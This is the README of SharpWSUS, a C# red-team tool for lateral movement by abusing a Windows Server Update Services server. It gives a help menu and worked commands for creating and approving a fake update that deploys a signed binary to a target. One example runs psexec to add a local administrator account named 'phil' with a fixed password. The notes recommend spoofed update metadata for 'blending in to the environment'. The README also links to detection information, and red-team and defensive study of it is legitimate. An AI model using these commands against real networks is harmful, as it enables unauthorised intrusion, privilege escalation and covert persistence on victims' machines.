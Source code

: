 # SharpWSUS

SharpWSUS is a CSharp tool for lateral movement through WSUS. There is a corresponding blog (https://labs.nettitude.com/blog/introducing-sharpwsus/) which has more detailed information about the tooling, use case and detection.

## Credits 

Massive credit to the below resources that really did 90% of this for me. This tool is just an enhancement of the below for C2 reliability and flexibility.

* https://github.com/AlsidOfficial/WSUSpendu - powershell tool for abusing WSUS
* https://github.com/ThunderGunExpress/Thunder_Woosus - Csharp tool for abusing WSUS

## Building
This project requires .NET Framework v4.0. You can download that here: https://dotnet.microsoft.com/en-us/download/dotnet-framework/net40. It may work with newer versions of .NET, however, it's not been tested.

## Help Menu

```
 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team


Commands listed below have optional parameters in <>.

Locate the WSUS server:
    SharpWSUS.exe locate

Inspect the WSUS server, enumerating clients, servers and existing groups:
    SharpWSUS.exe inspect

Create an update (NOTE: The payload has to be a windows signed binary):
    SharpWSUS.exe create /payload:[File location] /args:[Args for payload] </title:[Update title] /date:[YYYY-MM-DD] /kb:[KB on update] /rating:[Rating of update] /msrc:[MSRC] /description:[description] /url:[url]>

Approve an update:
    SharpWSUS.exe approve /updateid:[UpdateGUID] /computername:[Computer to target] </groupname:[Group for computer to be added too] /approver:[Name of approver]>

Check status of an update:
    SharpWSUS.exe check /updateid:[UpdateGUID] /computername:[Target FQDN]

Delete update and clean up groups added:
    SharpWSUS.exe delete /updateid:[UpdateGUID] /computername:[Target FQDN] </groupname:[GroupName] /keepgroup>
```

## Example Usage

```
sharpwsus locate

sharpwsus inspect

sharpwsus create /payload:"C:\Users\ben\Documents\pk\psexec.exe" /args:"-accepteula -s -d cmd.exe /c \\"net user phil Password123! /add && net localgroup administrators phil /add\\"" /title:"Great UpdateC21" /date:2021-10-03 /kb:500123 /rating:Important /description:"Really important update" /url:"https://google.com"

sharpwsus approve /updateid:9e21a26a-1cbe-4145-934e-d8395acba567 /computername:win10-client10.blorebank.local /groupname:"Awesome Group C2"

sharpwsus check /updateid:9e21a26a-1cbe-4145-934e-d8395acba567 /computername:win10-client10.blorebank.local

sharpwsus delete /updateid:9e21a26a-1cbe-4145-934e-d8395acba567 /computername:win10-client10.blorebank.local /groupname:"Awesome Group C2"
```

## Notes

* Binary has to be windows signed, so psexec, msiexec, msbuild etc could be useful for lateral movement.
* The metadata on the create command is not needed, but is useful for blending in to the environment.
* If testing in a lab the first is usually quick, then each subsequent update will take a couple hours (this is due to how windows evaluates whether an update is installed already or not)